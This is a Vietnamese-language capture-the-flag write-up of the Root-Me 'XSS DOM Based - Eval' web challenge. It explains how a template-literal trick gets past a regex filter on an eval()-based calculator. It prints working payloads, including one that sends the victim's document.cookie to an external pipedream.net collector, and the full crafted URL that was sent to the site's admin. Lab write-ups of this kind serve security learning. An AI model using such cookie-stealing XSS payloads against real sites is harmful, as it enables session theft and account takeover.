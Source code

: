 # [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: `/^\d+\[\\+|\\-|\\\*|\\/\]\d+/`

<img src="./media/image1.png" style="width:6.5in;height:3.36944in" alt="Graphical user interface, text, application, email Description automatically generated" />

Tuy vậy, sau khi fuzz thì thấy **eval()** cho phép thực thi phép toán **1+1asd:**

<img src="./media/image2.png" style="width:6.5in;height:2.69236in" alt="Graphical user interface, text Description automatically generated" />

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:
```javascript
&lt;script&gt;

var result = eval(1+1asd);

document.getElementById('state').innerText = '1+1asd = ' + result;

&lt;/script&gt;
```

Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals ([Template literals (Template strings) - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):

Thử chèn payload: 
```bash
1+1\`${alert\`\`}\`
```

<img src="./media/image3.png" style="width:6.5in;height:1.01389in" alt="A screenshot of a computer Description automatically generated" />

Và như vậy, ta có thể đính kèm DOM Based vào đây:

Payload: 
```bash
1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`
```

Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: [*http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1\`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}\`*](http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%60$%7bdocument.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie%7d%60)

<img src="./media/image4.png" style="width:6.5in;height:2.39167in" alt="Graphical user interface, text, application Description automatically generated" />

HTTP Request nhận được sau một khoảng thời gian:

<img src="./media/image5.png" style="width:6.5in;height:2.35in" alt="Graphical user interface, text, application, email Description automatically generated" />

Done:

<img src="./media/image6.png" style="width:6.5in;height:3.85139in" alt="Graphical user interface, application Description automatically generated" />

- Flag: "****************************"
